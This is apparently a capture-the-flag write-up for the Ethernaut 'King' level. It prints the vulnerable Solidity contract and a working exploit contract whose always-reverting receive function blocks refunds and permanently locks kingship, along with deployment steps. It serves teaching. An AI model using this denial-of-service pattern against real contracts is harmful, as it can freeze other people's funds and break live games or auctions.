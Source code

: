 # King

>The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

>When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

For this challenge, We have to claim kingship in such a way that nobody else can become the king in the future.
For this, we have to send an amount of eth greater than or equal to the balance of the King contract. 
To get this balance, we can run the following command in the browser console.
```javascript
await contract.prize()
```

Now, we write a contract `exploit` which contains a function hack that simply sends a transaction sending the value of prize to the instance of the King contract. However, this only solves the first part of the challenge. The trickier second part is to avoid the reclaimation of kingship.

We must ensure that even though an amount greater than the current prize is sent by the next address, the transfer of funds(prize) must fail so as to remain as king. To do that the key lies in the receive function as it is the one that is called when king contract calls the tranfer function.

We do this by introducing a `receive` function that reverts no matter what.
```solidity
contract exploit{
    King king;

    constructor (address payable _king) payable{
        king = King(_king);
    }

    function hack()public {
        (bool done, ) = address(king).call{value : 0.001 ether}("");
        require(done,"failed");
    }

    receive() payable external {
        revert();
    } 
}
```

Next, deploy the above contract along with sending 0.001 ether to the exploit contract. 
Call the hack function and then check the king.
On confirmation, we can submit the instance.

NOTE : The exploit contract must be sent the prize amount at the time of deployment and constructor function thus made payable. This is because once the contract is deployed, any transaction which triggers the receive function reverts.

(The exploit contract can be deployed through remix using Injected Web3 Provider MetaMask.)
